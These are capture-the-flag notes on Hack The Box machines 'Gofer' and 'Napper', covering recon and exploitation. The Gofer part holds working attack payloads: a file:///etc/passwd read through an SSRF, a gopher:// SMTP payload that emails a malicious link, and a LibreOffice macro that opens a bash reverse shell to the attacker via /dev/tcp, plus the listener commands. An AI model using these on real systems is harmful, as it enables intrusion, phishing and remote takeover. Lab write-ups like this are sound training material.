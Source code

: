 # Hard\_machines

### Gofer

[write-up](https://rouvin.gitbook.io/ibreakstuff/writeups/htb-season-2/gofer)

#### Reco

* NMAP
  * `nmap -sVC 10.10.11.225` ![](https://hackmd.io/\_uploads/SkEh6Mdi2.png)
    * 22 SSH
    * 25 filtered SMTP
    * 80 HTTP (redirect gofer.htb)
      * add it to our /etc/hosts
    * 139,445 SAMBA (smbd 4.6.2)
      * clock-skew -2s
      * security-mode 311 (signing enabled but not required)
* Website
  * "We are team of talented designers making websites with **BOOTSTRAP**"
    * BootstrapMade
  * images are stored in /assets/img/portfolio
  * contact form could have some weakness ![](https://hackmd.io/\_uploads/B1wqpMdih.png)

#### Weaponisation

* SMB
  * using nmap we found samba, lets scan it
    * `smbmap -H 10.10.11.225 -u " "` ![](https://hackmd.io/\_uploads/r1R21Qdjn.png)
      * we have "read only" permissions to disk **SHARES**
  * let´s look inside shares disk
    * `smbclient -N //10.10.11.225/shares` ![](https://hackmd.io/\_uploads/H1GPe7dsn.png)
  * analyze obtained backedup **email**
    * ![](https://hackmd.io/\_uploads/HJCFlXusn.png)
      * email addresses: jdavis@gofer.htb, tbuckley@gofer.htb
      * they are sending important documents internally by mail
        * using .odt format (Libreoffice, not Office Word)
      * there is a proxy
* Dir scan
  * `dirsearch -u http://gofer.htb/`
    * we can access gofer.htb/assets ![](https://hackmd.io/\_uploads/BJumDXOs2.png)
  * /assets
    * style.css, main.js
      * template Maxim v4.9.1
    * php-email-form/validate.js
      * PHP Email Form Validation v3.5 ![](https://hackmd.io/\_uploads/H1zvwm\_oh.png)
* Proxy
  * let´s find the proxy
    * `ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u "http://gofer.htb" -H "Host: FUZZ.gofer.htb" -fw 20`
      * **proxy.gofer.htb** -> add it to /etc/hosts ![](https://hackmd.io/\_uploads/H13NMXujn.png)

#### Exploitation

* **SSRF**
  * when accessing proxy.gofer.htb, there is a login pop-up window
    * Lets try the POST request for the index.php
      * `curl -X POST http://proxy.gofer.htb/index.php` ![](https://hackmd.io/\_uploads/Sy35nT9sn.png)
        * passed without credentials, but nothing more...
    * there could be a SSRF vuln
      * URL parameter can be specified like this:
        * `curl -X POST http://proxy.gofer.htb/index.php?url=http://<LOCAL_IP>`
      * now we can try /passwd path
        * `curl -X POST http://proxy.gofer.htb/index.php?url=file:///etc/passwd`
      * after a bit of testing and modifying...
        * `curl -X POST http://proxy.gofer.htb/index.php?url=file:/etc/passwd`
* We need to use an .odt format to exploit this, and it appears that this is from the user Jeff Davis from the company site (with a username of jdavis, so we know the username naming convention).
  * Since we have some kind of SSRF on the proxy service, we might be able to force a user to download and execute a malicious .odt file via macros to get the first shell. However, we first need to find out how to send an email through the proxy to the user since SMTP is not publicly facing.
  * Based on the box name alone, I sort of figured out that we need to use the gopher:// protocol, which is used to send files to other users.
* !!! **important knowledge**: [SSRF](https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2?gi=50c9cd56d751) and [Gopherus payload](https://github.com/tarunkant/Gopherus) !!!
* OK: we want to use the **gopher** protocol to craft an ssrf payload based on the information in the email found on smb
  * right path to a foothold is in the obtained email
    * we can use the mentioned Gopherus for creating payload:
* **1. PAYLOAD:**
  * `curl -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/xHELO%250d%250aMAIL%20FROM%3A%3Ciamanidiot@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%3Ciamanidiot@gofer.htb%3E%250d%250aTo%3A%20%3Cjdavis@gofer.htb%3E%250d%250a%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250a<a+href%3d'http%3a//10.10.14.24/macro.odt>open</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a"`
    * [.odt file HINT](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)
* **2. MACRO:**
  * prepare it by this [guide](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)

> Sub Main Shell("bash -c 'bash -i >& /dev/tcp/\<LOCAL\_IP>/\<LOCAL\_PORT> 0>&1'") End Sub

* **3. HTTP.SERVER && NC:**
  * `nc -nlvp <LOCAL_PORT>`
  * `python3 -m http.server 80` //in the folder containing macro.odt

#### User flag

#### Root flag

* Linpeas
  * lim8en1 (option #8)
  * 23+who

## Napper

### Reco

#### nmap

* 80 HTTP
  * redirect to app.napper.htb
    * sudo nano /etc/hosts
* 443 HTTPS
  * organizationName = MLopsHub (CA, USA)
  * http-generator = Hugo 0.112.3
  * http-methods => potentially risky methods: TRACE
* Host script results: clock-skew: -ls

#### dirb

### Weaponisation

* Website is running HUGO framework w older version
  * VULN: **CVE-2020-26284**

{% embed url="https://github.com/gohugoio/hugo/security/advisories/GHSA-8j34-9876-pvfq" %}

